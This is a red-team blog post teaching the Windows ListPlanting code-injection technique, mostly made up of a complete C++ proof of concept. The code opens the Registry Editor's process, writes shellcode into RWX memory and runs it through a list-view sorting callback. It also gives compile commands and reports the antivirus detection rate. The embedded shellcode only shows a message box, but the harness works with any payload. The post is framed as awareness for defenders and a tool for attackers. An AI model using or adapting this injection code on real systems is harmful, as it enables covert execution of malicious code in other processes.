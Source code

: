 ```yaml
---
title:  "Malware development tricks: part 24. Listplanting. C++ example."
date:   2022-11-27 03:00:00 +0300
header:
  teaser: "/assets/images/81/2022-11-28_03-03.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/81/2022-11-28_03-03.png){:class="img-responsive"}    

This post is the result of my own research into the malware dev trick: Listplanting.     

Using the `LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED`, and `LVM_SORTITEMS` messages, a `ListView` control's items and groups can have their sorting behavior modified to suit individual preferences. List-view controls are user interface windows that display groups of things. A `SysListView32` control stores information about an application's list-view settings in the process' memory.    

*ListPlanting* may be performed by copying code into the virtual address space of a process that uses a list-view control then using that code as a custom callback for sorting the listed items.    

### practical example

Let's go to look at a practical example. The trick is pretty simple:    

First of all, get windows handle:

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Then, get process ID, and open it (get process handle by `OpenProcess`):   

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

At the next step, we allocate RWX-memory via `VirtualAllocEx` and "copy" payload:     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// copy payload
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Finally, trigger payload:    

```cpp
// trigger payload
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

According to [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - Places (posts) a message in the message queue associated with the thread that created the specified window and returns without waiting for the thread to process the message.      

The full source code of my PoC:      

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

As you can see, as usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/81/2022-11-28_03-25.png){:class="img-responsive"}    

Then, run Registry Editor in the victim machine (`Windows 10 x64` in my case):      

![injection](/assets/images/81/2022-11-28_04-11.png){:class="img-responsive"}    

And, run our `hack.exe`:    

```powershell
.\hack.exe
```

![injection](/assets/images/81/2022-11-28_04-13.png){:class="img-responsive"}    

![injection](/assets/images/81/2022-11-28_04-13_1.png){:class="img-responsive"}    

Run as Administrator, because for injecting to Registry Editor (`regedit.exe`) requires elevated privileges.     

For correctness, run `Process Hacker 2` as Administrator and check *memory* tab:     

![injection](/assets/images/81/2022-11-28_04-16.png){:class="img-responsive"}    

![injection](/assets/images/81/2022-11-28_04-18.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/81/2022-11-28_04-21.png){:class="img-responsive"}    

**So, 19 of 71 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

This technique is used in [InvisiMole](https://attack.mitre.org/software/S0260/). *InvisiMole* is a modular spyware software that the InvisiMole Group has been using since at least 2013.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[source code in github](https://github.com/cocomelonc/2022-11-27-malware-tricks-24)       

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

